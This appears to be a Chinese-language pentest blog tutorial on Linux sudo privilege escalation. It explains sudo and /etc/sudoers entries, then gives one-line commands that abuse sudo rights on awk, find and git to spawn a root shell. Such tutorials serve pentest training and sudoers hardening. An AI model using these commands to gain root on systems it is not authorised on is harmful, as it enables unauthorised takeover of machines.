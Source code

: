 ```yaml
---
title: Linux渗透 Sudo提权
description: Linux渗透 Sudo提权
pubDate: 11 13 2024
image: https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-9.webp
categories:
  - 网络安全
tags:
  - 提权
  - Linux
---
```


## sudo 命令

sudo 是 Linux 系统管理指令，是允许系统管理员让普通用户执行一些或者全部的 root 命令的一个工具，如 halt，reboot，su等等。换句话说通过此命令可以让非 root 的用户运行只有 root 才有权限执行的命令。当一般用户执行特殊权限时，在命令前加上 sudo，此时系统会让你输入密码以确认终端机前操作的是你本人，确认后系统会将该命令的进程以超级用户的权限运行。在一定的时间段内，再次执行sudo的命令时不再询问密码，超出此时间段（一般为5分钟）后需要再次输入密码。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-1.webp)

## sudoers 文件

要想使一个用户具有使用 sudo 的能力，需要让 root 用户将其名字、可以执行的特定命令、按照哪种用户或用户组的身份执行等信息注册到 `/etc/sudoers` 文件中，即完成对该用户的授权（此时该用户称为“sudoer”）才可以。

在 Linux/Unix 中，`/etc/sudoers` 文件是sudo权限的配置文件，其中储存了一些用户或组可以以 root 权限使用的命令。如下图

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-2.webp)

- 给用户赋予全部root权限：找到 root 权限 `root ALL=(ALL:ALL) ALL`，在下一行输入 `kali ALL(ALL:ALL) ALL`，保存后退出，这样即表示用户 kali 可以使用 sudo 调用 root 权限执行命令。即此时 kali 用户相当于 root 了

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-3.webp)

使用 `sudo -l` 查看权限

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-4.webp)

- 给予用户部分权限：`kali ALL=(root) NOPASSWD: /usr/bin/python`，kali 用户就能使用 sudo 去以 root 权限执行 `/usr/bin/python` 命令了

## sudo 提权

### awk

awk：

```shell
sudo awk 'BEGIN{system("/bin/bash")}'
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-6.webp)

### find

find：这里查找的东西一定是存在的，不然会报错

```shell
sudo find /home -exec /bin/bash \;
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-5.webp)

### git

```shell
sudo git help add
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-7.webp)

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20Sudo%E6%8F%90%E6%9D%83/003%20Linux%20Sudo%E6%8F%90%E6%9D%83-8.webp)
